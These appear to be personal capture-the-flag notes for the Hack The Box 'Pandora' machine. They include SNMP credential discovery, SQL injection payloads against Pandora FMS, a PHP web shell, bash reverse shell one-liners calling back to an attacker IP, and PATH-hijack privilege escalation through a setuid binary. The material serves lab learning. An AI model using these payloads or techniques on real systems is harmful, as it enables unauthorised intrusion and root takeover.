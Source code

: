 - 10.10.11.136 leads to panda.htb web page
	- added to /etc/hosts
- nmap shows port 80 http and port 22 ssh
	```bash
nmap 10.10.11.136
nmap -sV -sT 10.10.11.136
```
	- Linux OS
	- Apache Server 2.4.41
- dirsearch finds assets subdirectory
	```bash
diresearch -u http://panda.htb
```
	- Assets shows a directory list with .svg images
		- maybe there is a file upload vulnerability?
			- XXE /XSSVulnerability
			- github link:
				https://github.com/makeplane/plane/security/advisories/GHSA-rcg8-g69v-x23j
				- The application allows users to upload SVG files as profile images without proper sanitization. SVG files can contain embedded JavaScript code that executes when the image is rendered in a browser. This creates an XSS vulnerability where malicious code can be executed in the context of other users' sessions.
				- How to upload file now..
- many loophles, the assets hold images, one of the images talks of plainadmin website. there are svg vulnerabilities. fuzzing and subdomain search is a bit difficult as pages return true always.
--------
- **But the key is to check udp ports for nmap**
	```bash
nmap -sU 10.10.11.136 #slower 
nmap -sU --min-rate=5000 10.10.11.136 #faster
```
## SNMP Enumration
- perform snmpwalk
	```bash
	snmpwalk -v 1 -c public 10.10.11.136
```
	- We find a username and password:
		```bash
iso.3.6.1.2.1.25.4.2.1.5.1101 = STRING: "-u daniel -p HotelBabylon23"
```
	- can ssh into machine as this user **but we cannot access user flag as its for user matt**
## More enumeration
- uname -a gives 
	- Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
- searchsploit pandora gives a bunch of exploits
- i found a ruby exploit but cant seem to transfer the file
- searching /var/www/
	- we find pandora extra folder with pandora console
	- this implies there maybe another virtual host
- search /etc/apache2/sites-available
	- we see in pandora.conf there is a locally hosted site
		- pandora.panda.htb hosted locally on 80
- **New technique**
	- now to get access to this site we need to forward it to our localhost via a port
	- ssh into daniel again but with -L to set a listener port which will forward this localhost to our machine's localhost ip
		```bash
ssh -L 9090:127.0.0.1:80 daniel@panda.htb
```
		- to check pass this command on your local machine to check if ssh is listening
			```bash
ss -lntp | grep "9090"
```
	- add pandora.panda.htb to localhost in /etc/hosts
	- access url via port 9090 to get login screen
----------
## Login Page Enumeration
- Googling the version of Pandora FMS v7.0NG.742_FIX_PERL2020
	- we find RCE exploit
		- https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/
			- sql database in there
			- in line 72 of _chart_generator.php_, the user input is fetched from the `$_REQUEST` superglobal which contains GET and POST parameters, as well as cookie values. The latter is probably the reason why `get_parameter()` was not used here. The user input **`$_REQUEST['session_id']`** is passed to the constructor of the class `PandoraFMS\User` without any sanitization.
			- chart generator is vulnerable
			- /include path : checked url and leads to a directory with chat_generator.php file
		- https://www.exploit-db.com/exploits/50961
- need to capture session id to use for sqlmap
	- since we know we attack the session id of chat_generator.php
		```bash
http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?session_id=' show datases or 1=1-- -
```
	- we get sql error showing its vulnerable to SQLi
## SQLMAP enumeration
- enumerate with sqli 
	```bash
	```bash
sqlmap -u "http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?session_id=*" --batch --level=5 --risk=3 -D pandora -T tsessions_php --dump
```
	- FIRST PASSWD --dbs, found a database, then --tables to find tables then --dump a table step by step
	- found matt session_id
		- added the session id to my url
		- went back to pandora.panda.htb:9090 and was logged in
		- however Im not admin so only limited functionality
----
- **ALTERNATE METHOD FOR admin access to page (binary analysis) HARD FIND**
	- checking the table again we see
		- id_usuario|s:6:"daniel"
		- somethign similar for matt
		- the s value represents the characters (daniel is 6 characters)
		- add this to url :
			```bash
http://pandora.panda.htb:9090/pandora_console/include/chart_generator.php?sessionid=' union select 1,2,'id_usuario|s:5:"admin";'-- -
```
	- we get no error message and refreshion pandora.panda.htb:9090 we get admin access
		- we try to upload php code into file manager (shows its in image directory so can url into pandora_console/images to see and execute)
		- Three methods:
			- upload pentest monkeys php reverse shell with creds and listen on port.
			- manually we can create a php code that calls a command line
				```php
<?php
system($_REQUEST['cmd']);
?>
```
				- Upload and open file in images directory
				- pass url to check if working
				```php
http://pandora.panda.htb:9090/pandora_console/images/shell.php?cmd=whoami
```
				- we get response matt
				- open burpsuite and capture this
					- change request type to post
					- pass this command at the bottom (a blank line in between the request and this)
					```bash
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.25/9998 0>&1'
```
					- Select everything from after "cmd=" and press Ctrl+U to url encode and then send the packet while listening on port 9998.
						- we get reverse shell 
-----------
- **Another way to get reverse shell without admin access**
	- php ajax.php vulnerability
		- capture packets via burp suite as matt logs in
	- we find an ajax.php file
		- https://www.coresecurity.com/core-labs/advisories/pandora-fms-community-multiple-vulnerabilities
			- can execute exploit in this post request
				```bash
page=include/ajax/events&perform_event_response=10000000
&**target=bash -c 'bash -i >& /dev/tcp/10.10.14.25/9998 0>&1'&response_id=1
```
		- we also need to url encode it (Ctrl+U in Burp Suite)
			```bash
page=include/ajax/events&perform_event_response=10000000
&target=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.25/9997+0>%261'&response_id=1
```
		- have netcat listener listening on port 9997
			- to gain access at matt user
## Privilege escalation
- on enumerating we do 
	```bash
find / -type f -perm -4000 2>/dev/null
```
	- and we find pandora_backup with root priv
		- yet we cant execute it
		- this is due to a restricted shell
			- why? we tried sudo -l and it gave a weird error:
				```bash
sudo: PERM_ROOT: setresuid(0, -1, -1): Operation not permitted
sudo: unable to initialize policy plugin
```
			- 
			- https://gtfobins.github.io/gtfobins/at/#shell
				- can use at to break of of restricted shell
				```bash
# tried but didnt work
```
		- alternatively, create a ssh key in your local machine and send it to target "
			```bash
python -m http.server:8001 # where you have the key
in target matchine /home/matt.ssh: wget 10.10.14.25:8001/matt.pub #get public key to .ssh directory
mv matt.pub authorized_keys
chmod 600 authorized_keys # VERY IMPORTANT
in local machine : chmod 600 matt
ssh -i matt matt@10.10.11.136 # should not get password prompt
```
		- then in shell create tar file and make it executable with /bin/bash as entry(why? if you look at pandora_backup which we want to execute, that is the command which gets use root)
		- create path to current directory
			```bash
echo /bin/bin > tar
chmod +x tar
export PATH=$(pwd):$PATH
echo $PATH # should show current direvtory first now
/usr/bin/pandora_backup
```
		- we gain root access
-------
## The Priv Esc exploit in pandora_backup
- on doing strings or Ghidra we can find the main code of pandora_backup
	```bash
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```
	- we create atar file with the command /bin/bash into it and make it executable. 
	- Furthermore we check the $PATH as thats what the command path checks when executing. We change this to our current directory 
		```bash
export PATH=$(pwd):$PATH
echo $PATH
```
	- then we execute pandora_backup which calls that command but since there is a tar executable in our current working directory.
	- since this runs as setuid it runs as root so hen /bin/bash is executed in our altered tar executable, it executes the root shell for us.